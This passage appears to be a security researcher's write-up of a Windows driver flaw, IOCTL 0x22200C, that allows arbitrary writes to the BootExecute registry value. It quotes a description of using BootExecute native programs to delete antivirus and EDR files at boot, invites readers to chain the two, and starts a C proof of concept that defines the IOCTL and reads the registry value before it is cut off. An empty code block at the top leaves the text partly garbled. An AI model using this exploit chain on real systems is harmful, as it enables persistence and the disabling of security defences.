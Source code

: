 ```c
```


### IOCTL 0x22200C Proof-of-Concept - Arbitrary Registry Modification (BootExecute)
I came across a proof of concept by @rad9800 related to `BootExecute`. He / She has properly documented the way to bypass EDR utilizing the `BootExecute`. This is what he wrote:
```
Boot Execute allows native applications—executables with the NtProcessStartup entry point and dependencies solely on ntdll.dll—to run prior to the complete initialization of the Windows operating system. This occurs even before Windows services are launched. Historically, attackers have exploited this mechanism as a rudimentary persistence method. However, utilizing this feature requires administrative privileges, both to modify the corresponding registry key and to place the executable within the %SystemRoot%\System32 directory.

Because these native applications execute before security mechanisms are fully operational, this presents an opportunity to disrupt antivirus (AV) and endpoint detection and response (EDR) systems by deleting critical application files as we run with SYSTEM privileges.
```
So this issue looks like can be chain with his PoC as payload by utilizing `BootExecute` registry modification. I didn't get a chance to chain (coz I'm lazy) this issue with his proof of concept but maybe you can try yourself. You can find his / her PoC here, [https://github.com/rad9800/BootExecuteEDR](https://github.com/rad9800/BootExecuteEDR).
```c
#include <windows.h>
#include <winioctl.h>
#include <stdio.h>
#include <tchar.h>
#include <string>
#include <vector>

// 0x22200C
#ifndef IOCTL_WOWREG_SET_BOOTEXECUTE
#define IOCTL_WOWREG_SET_BOOTEXECUTE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x803, METHOD_BUFFERED, FILE_ANY_ACCESS) 
#endif

static const wchar_t* kSessionMgrKey = L"SYSTEM\\CurrentControlSet\\Control\\Session Manager";
static const wchar_t* kBootExecute = L"BootExecute";

static bool ParseRegistry(std::vector<std::wstring>& entries) 
{
    entries.clear();

    HKEY hKey = nullptr;
    LSTATUS st = RegOpenKeyExW(HKEY_LOCAL_MACHINE, kSessionMgrKey, 0, KEY_QUERY_VALUE, &hKey);
    if (st != ERROR_SUCCESS) 
    {
        wprintf(L"[-] Check your permission. Maybe you need Admin?\n");
        return false;
    }

    DWORD type = 0;
    DWORD cb = 0;
    st = RegQueryValueExW(hKey, kBootExecute, nullptr, &type, nullptr, &cb);
    if (st != ERROR_SUCCESS) 
    {
        wprintf(L"[-] Unable to query registry value\n");
        RegCloseKey(hKey);
        return false;
    }
    if (type != REG_MULTI_SZ || cb == 0)
    {
        RegCloseKey(hKey);
```